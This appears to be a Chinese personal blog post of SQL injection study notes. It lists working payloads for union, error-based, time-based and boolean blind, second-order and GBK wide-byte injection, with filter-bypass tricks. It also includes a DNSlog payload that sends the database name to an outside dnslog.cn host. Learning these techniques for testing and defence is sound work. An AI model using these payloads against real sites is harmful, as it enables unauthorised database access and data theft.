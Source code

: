 ```yaml
---
layout:     post
title:      SQL注入类型
subtitle:   SQL注入类型
date:       2023-04-15
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - web安全
    - SQL注入
---
```

# sql注入普通注入
该方法使用union select,适用于查询有显示的情况下

分为数字型和字符型，数字型没有单引号，字符型有引号

数字型测试流程：
（1）加单引号
id=3'会出现报错
（2）加and 1=1
id=3 and 1=1
(3)加and 1=2
id=3 and 1=2

字符型加单引号
name='admin''出现报错
加' and 1=1--+正常
加' and 1=2--+异常

判断列数
id=1 order by 4#报错
id=1 order by 3#正常
说明上面那个查询有3列

爆出数据库
id=-1 union select 1,database(),3--+
id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemeta#
id=-1 union select 1,group_concat(schema_name),3 from information_schema.tables where table_schema="kuming"
?id=-1' union select 1,group_concat(0x7e,字段,0x7e),3 from 数据库名.数据表名--+

# sql报错注入
该方法使用floor()函数，rand()函数
extractvalue()
updatexml()

id=1' and select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2))

extractvalue(1,concat(0x7e,(select user()),0x7e));

updatexml(1,concat(0x7e,(select user()),0x7e),0x7e);

# sql延时注入
适用于既没有回显也没有报错
id=1' and if(ascii(substr(database(),1,1))=115,sleep(10),1)

ascii转为bin() hex() ord()
substr()转为mid() substring()
database()转为@@database
空字符 %09 %0a~%0d %a0 %20 
+-.
/--/

若substr中逗号过滤，使用 from for 即database() from 1 for 1
若if中逗号过滤 使用case then 即
case when ascii(mid(database() from 1 for 1)=115 then sleep(10) else 1 end

# sql布尔注入
也是适用于无回显，且无报错且无延时，使用布尔注入
id=1' and left(database(),1)='s' --+

like 'e%'
regexp "^s"

# 二次注入
以上都不行，因为将'转义了，一般用于白盒测试
参数进入数据库还原为1'
另一处引用这个数据
将1'从数据库中取出到SQL语句

例如注册用户名为admin'# 密码为123
修改admin'#的密码时
$ sql = "UPDATE users SET PASSWORD=’$ pass’ where username=’admin‘#’ and password=’$ curr_pass’ ";

# dnslog对外注入
用于测试网站把ip封掉
?id=1' and (select load_file(concat('\\',(select database()),'.682y4b.dnslog.cn/abc'))) --+
该服务器就会从test.682y4b.dnslog.cn/abc网站中下载文件，首先要进行dns即域名解析服务，从浏览器缓存中没发现，从系统缓存中没发现，从路由器缓存中没发现，从ISP即网络提供商的DNS缓存中没发现
访问根域名服务器，若无记录告诉管辖范围内顶级域名服务器IP.com .cn
访问顶级域名服务器 ，若无记录告诉权威（主）域名服务器IP xxx.com xxx.cn
访问权威域名服务器后查询自己的缓存，如果没有则进入下一级域名服务器中直到找到
保存结果到缓存

它访问test.682y4b.dnslog.cn/abc，会在 682y4b.dnslog.cn服务器中有一条DNS记录，找test.682y4b.dnslog.cn/abc
## 宽字节注入
由于使用了addslashes()函数
数据库设置编码模式为GBK
输入id=%df' union select 1,2,3 %23
%df经过转义为%df\'即 %df%5c%27
由于GBK编码，%df%5c编码成了运，单引号逃逸出来